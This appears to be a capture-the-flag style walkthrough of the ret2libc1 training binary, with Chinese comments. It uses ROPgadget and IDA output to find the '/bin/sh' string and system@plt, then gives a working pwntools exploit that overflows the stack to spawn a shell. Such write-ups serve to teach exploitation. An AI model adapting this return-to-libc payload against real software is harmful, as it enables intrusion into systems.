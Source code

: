 

## ROPgadget

- 利用 `ropgadget`，查看是否有 `/bin/sh` 存在

```bash
$ ROPgadget --binary ret2libc1 --string '/bin/sh'
Strings information
============================================================
0x08048720 : /bin/sh
```



## IDA: Find function "system"

- 再次查找一下是否有 `system` 函数存在

```assembly
# 找到system函数：
extern:0804A0F4 ; int system(const char *command)
extern:0804A0F4                 extrn system:near       ; CODE XREF: _system↑j # 双击这个可以直接跳到代码段里面引用到的地方
extern:0804A0F4                                         ; DATA XREF: .got.plt:off_804A018↑o # 双击这个引用
# 然后可以在 .got.plt 段看到引用
.got.plt:0804A018 off_804A018     dd offset system        ; DATA XREF: _system↑r # 双击这个引用
# 在 .plt 找到使用的地方
.plt:08048460 ; =============== S U B R O U T I N E =======================================
.plt:08048460 ; Attributes: thunk
.plt:08048460 ; int system(const char *command)
.plt:08048460 _system         proc near               ; CODE XREF: secure+44↓p
.plt:08048460
.plt:08048460 command         = dword ptr  4
.plt:08048460
.plt:08048460                 jmp     ds:off_804A018 # 这里就是调用了system函数的地方
.plt:08048460 _system         endp
.plt:08048460
```



## Exploit

```python
#!/usr/bin/env python
from pwn import *
sh = process('./ret2libc1')

binsh_addr = 0x08048720 # 0x08048720 : /bin/sh 字符串所在的地址
system_plt = 0x08048460 # .plt:08048460  jmp     ds:off_804A018 # plt表，存放调用system函数的额外代码串的表
payload = flat(['a' * (108+4), system_plt, 'b' * 4, binsh_addr]) # 112是可供溢出字符串与返回地址的偏移量，分析方法与其他ROP问题相同
# 程序的RA覆盖为 system_plt，执行system()函数，'bbbb' 为system函数的虚假返回地址
sh.sendline(payload)
sh.interactive()
```
